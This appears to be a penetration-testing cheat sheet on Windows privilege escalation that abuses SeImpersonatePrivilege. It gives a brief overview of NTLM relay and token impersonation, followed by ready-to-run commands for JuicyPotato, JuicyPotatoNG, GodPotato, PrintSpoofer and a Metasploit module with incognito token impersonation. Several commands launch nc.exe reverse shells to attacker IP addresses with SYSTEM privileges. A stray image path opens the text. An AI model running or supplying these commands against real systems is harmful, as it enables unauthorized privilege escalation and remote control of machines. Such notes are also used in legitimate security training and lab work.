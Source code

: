 And SeAssignPrimaryToken lol
#### High-level Overview
1. Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control.
2. Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls.
3. Impersonate the token we have just negotiated. This can only be done if the attackers current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.
```powershell
Privilege Name                          Description 
======================================= ====================================
SeImpersonatePrivilege                  Impersonate a client after authentication
```

#### Exploitation
[Juicy Potato](https://github.com/antonioCoco/JuicyPotatoNG)
```powershell
.\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\ProgramData\nc.exe 10.10.15.155 4443 -e cmd.exe" -t *

.\JuicyPotatoNG.exe -t * -p c:\windows\system32\cmd.exe -a "/c c:\ProgramData\nc.exe 10.10.15.155 8443 -e cmd.exe" 
```

[GodPotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20)
```powershell
.\godpotato.exe -cmd "cmd /c whoami"
```

[PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)
```powershell
.\PrintSpoofer.exe -i -c cmd
.\PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
```

Meterpreter
Find [CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)
```bash
background
use exploit/windows/local/ms16_075_reflection_juicy
set LHOST tun0
set LPORT 4443
set sessions 1

exploit

load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
shell
whoami
```